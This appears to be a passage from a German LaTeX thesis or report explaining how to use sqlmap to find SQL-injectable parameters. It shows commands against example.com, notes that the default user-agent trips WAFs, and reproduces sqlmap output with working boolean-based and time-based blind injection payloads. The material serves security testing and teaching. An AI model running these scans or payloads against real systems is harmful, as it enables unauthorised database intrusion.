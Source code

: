 Zum Auffinden verwundbarer Request"=Parameter wurde das Python basierte Werkzeug \emph{sqlmap} ausgewählt. Es bietet verschiedene Kommandozeilenoptionen an, deren Verwendung an dieser Stelle kurz erläutert wird. Das frei verfügbare Tool kann von \url{http://sqlmap.org/} aus installiert werden.

\begin{listing}
\begin{verbatim}
> python sqlmap.py -u "http://www.example.com/app.php?id=1"
\end{verbatim}
\end{listing}

Mit dem Parameter \texttt{-u} wird die anzugreifende URL angegeben. Bereits dieses Argument genügt für eine erste Analyse: Standardmäßig wird ein \texttt{GET}"=Request verwendet und dabei versucht, alle in der URL enthaltenen Parameter anzugreifen. Hierbei setzt sqlmap verschiedene mögliche Payloads für die angegeben Parameter ein und überprüft anhand der Serverantwort, ob die SQL"=Injection erfolgreich war.

\begin{listing}
\begin{verbatim}
> python sqlmap.py -u "http://www.example.com/app.php" --data={username=&password=}
\end{verbatim}
\end{listing}

sqlmap ist ebenfalls in der Lage, \texttt{POST}"=Requests durchzuführen. Hierzu werden die Parameter mit dem Argument \texttt{--data} angegeben.

Ebenfalls wichtig ist die Angabe des UserAgents, den sqlmap für die Anfrage verwenden soll. Wird dieser mit dem Parameter \texttt{--user-agent} nicht spezifiziert, wird \texttt{sqlmap/1.0.6.33\#dev} verwendet. Ein derartiger UserAgent Header kann jedoch dazu führen, dass eine Anfrage von einer WAF abgelehnt wird ohne auch nur die einzelnen Parameter zu betrachten.



\begin{listing}
\begin{verbatim}
sqlmap identified the following injection point(s) with a total of 307 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment) (NOT)
    Payload: uname=") OR NOT 7407=7407#&passwd=

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: uname=") OR SLEEP(5)#&passwd=
\end{verbatim}
\end{listing}

